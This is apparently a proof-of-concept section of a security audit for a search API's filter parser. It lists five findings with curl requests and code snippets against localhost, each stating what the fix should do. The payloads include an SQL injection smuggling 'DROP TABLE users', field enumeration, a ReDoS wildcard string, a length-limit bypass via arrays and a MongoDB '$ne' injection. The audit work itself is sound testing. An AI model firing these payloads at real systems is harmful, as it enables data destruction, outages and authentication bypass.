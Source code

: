 
## Proof of Concept Pack

### VULN-001: SQL Injection Attack
```bash
# Test SQL injection through field names
curl -X GET "http://localhost:3000/api/search?filter=user.name%3B%20DROP%20TABLE%20users%3B%20--:%22test%22"

# Expected: Server error or successful injection
# Should be: Validation error with generic message
```

### VULN-002: Field Enumeration
```bash
# Enumerate valid fields through error messages
curl -X GET "http://localhost:3000/api/search?filter=password:%22secret%22"
curl -X GET "http://localhost:3000/api/search?filter=nonexistent:%22value%22"

# Current: Different error messages reveal field existence
# Should be: Same generic error for all unauthorized fields
```

### VULN-003: ReDoS Attack
```bash
# Trigger regex DoS with catastrophic backtracking
curl -X GET "http://localhost:3000/api/search?filter=name:%22*a*a*a*a*a*a*a*a*a*a*a*a*a*a*a*a*a*a*a*a*b%22"

# Expected: Server hang or timeout
# Should be: Immediate rejection with wildcard limit error
```

### VULN-004: Type Confusion
```javascript
// Bypass string length limits using arrays
const maliciousQuery = {
  type: 'comparison',
  field: 'status',
  operator: 'IN',
  value: ['x'.repeat(2000), 'y'.repeat(2000)] // Bypasses maxValueLength
};
```

### VULN-005: Object Injection
```javascript
// NoSQL injection attempt
const mongoQuery = parser.parse('user:{"$ne": null}');
// In MongoDB context, this could bypass authentication
```

---
